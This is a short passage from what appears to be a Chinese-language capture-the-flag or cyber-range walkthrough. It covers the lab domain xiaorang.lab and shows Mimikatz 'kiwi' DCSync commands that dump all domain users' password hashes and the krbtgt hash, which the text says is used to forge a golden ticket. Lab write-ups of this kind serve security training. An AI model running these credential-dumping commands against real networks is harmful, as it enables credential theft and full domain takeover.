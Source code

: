 exit退出，猕猴桃读（ 导出域内所有用户的信息(包括哈希值)），然后抓hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit 
```

![image-20230802111546332](img/春秋云镜-Initial/image-20230802111546332.png)

生成黄金票据

```
生成
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /user:krbtgt
```

![image-20230802112320507](img/春秋云镜-Initial/image-20230802112320507.png)
